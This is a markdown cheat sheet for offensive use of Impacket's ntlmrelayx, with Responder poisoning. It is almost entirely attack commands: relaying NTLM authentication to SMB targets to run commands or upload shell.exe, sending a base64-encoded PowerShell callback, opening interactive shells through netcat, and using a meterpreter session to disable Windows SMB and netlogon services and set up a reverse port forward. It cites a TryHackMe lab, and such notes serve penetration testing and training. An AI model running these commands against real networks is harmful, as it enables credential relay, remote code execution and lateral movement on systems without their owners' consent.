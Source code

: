 # Impacket

## 01 - NTLMRelayX

### 1.1 - Basics

`$ sudo ntlmrelayx.py -t smb://<target_IP> -smb2support -c <commands>`

`$ sudo ntlmrelayx.py -tf targets.txt -smb2support -c <commands>`

`$ sudo ntlmrelayx.py -t smb://<target_IP> -smb2support -e shell.exe`

`$ sudo ntlmrelayx.py -tf targets.txt -smb2support -e shell.exe`

- **Interactive shell with netcat**

`$ sudo ntlmrelayx.py -t smb://<target_IP> -smb2support -socks`

`$ nc 127.0.0.1 <PORT>`

### 1.2 - Use Cases

#### 1.2.1 - Callback Shell

- **Modify in the Responder configuration file**

`$ sudo nano /etc/responder/Responder.conf`

---

```
SMB=OFF
HTTP=OFF
```

- **Start the Responder**

`$ sudo responder -I <interface> -rdw`

Spawn callback shell

`$ sudo ntlmrelayx.py -t smb://<target_IP> -smb2support -e shell.exe`

`$ sudo ntlmrelayx.py -t smb://<target_IP> -smb2support -c "powershell.exe -E <base64_encoded>"`

Interactive shell with netcat

`$ sudo ntlmrelayx.py -t smb://<target_IP> -smb2support -i`

`$ nc 127.0.0.1 <PORT>`

#### 1.2.2 - Proxychains via Relaying

##### 1.2.2.1 - Hijack Host and Setup MITM

- **Disable SMB to spoof the targets via proxychains**

```
$ sudo ntlmrelayx.py -t smb://<target_IP> -smb2support -socks

meterpreter > shell

C:\> sc stop netlogon

C:\> sc stop lanmanserver

C:\> sc config lanmanserver start=disabled

C:\> sc stop lanmanworkstation

C:\> sc config lanmanworkstation start=disabled

C:\> shutdown /r

C:\> exit
```

Add a reverse port forward to 445 to relay SMB attack via the command and control server (metasploit)

`meterpreter > portfwd add -R -L <bind_target_IP> -l 445 -p 445`

- **Cleanup**

```
meterpreter > shell

C:\> sc config lanmanserver start=auto

C:\> sc start lanmanworkstation

C:\> sc config lanmanworkstation start=auto

C:\> sc start netlogon
```

## References

- [Tryhackme HOLO](https://stimpz0r.com/tryhackme-holo/)

- [How to Exploit Active Directory ACL Attack Paths Through LDAP Relaying Attacks](https://www.praetorian.com/blog/how-to-exploit-active-directory-acl-attack-paths-through-ldap-relaying-attacks/)